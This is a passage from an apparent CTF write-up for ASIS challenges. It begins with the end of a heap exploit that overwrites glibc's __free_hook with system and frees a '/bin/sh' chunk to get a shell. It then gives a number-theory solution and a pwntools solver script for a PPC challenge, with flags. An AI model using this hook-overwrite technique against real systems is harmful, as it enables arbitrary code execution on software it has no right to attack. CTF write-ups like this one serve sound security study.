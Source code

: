 ```python=

add(1, 1, '1', 0x68, p64(__free_hook), 1) # 0
add(1, 1, '1', 0x68, '/bin/sh\x00', 1) # 2
add(1, 1, '1', 0x68, p64(__free_hook), 1) # 3

add(1, 1, '1', 0x68, p64(system), 1) # 4

free(2)

r.interactive()

```
flag : `ASIS{2655b2e6fa6861246c9423c75d76c0e3}`

## PPC

### SPM

FWEASD

This is a simple PPC question. It ask us to find a integer $x$ , $\ s.t\ \ \  x^x\equiv a\pmod p$ where $p$ is a prime number.
Solution:
assume $x = n \times p + a$ by Fermat's little theorem
$x^x \equiv (n \times p+a)^{(n \times p+a)}\equiv  a\pmod p$
now $let\ n+a=m \times (p-1)+1$, so we can pick $m=1\Rightarrow n=p-a\Rightarrow x=p^2-a \times p+a$

Exploit script : 
```python
from common import start

host = '37.139.4.247'
port = 60049

r = remote(host, port)

# this is to pass the PoW chal
start(r)

cnt = 0
while 1:
    try:
        cnt += 1
        print ('[{}]\tsolving...'.format(cnt))
        r.recvuntil('| send a solutoin of super hard equation x ** x = a (mod p), for given a and p')
        r.recvuntil('p = ')
        p = int(r.recvuntil('\n'))
        r.recvuntil('| a = ')
        a = int(r.recvuntil('\n'))

        # solve
        m = 1
        n = p - a
        x = int(n * p + a)
        r.sendline(str(x))
    except:
        r.interactive()
        exit()
```

flag : `ASIS{S1mple_T4sk_iN_S3lf_P0w3r_maP_eCMiJWd2PbuVJ}`



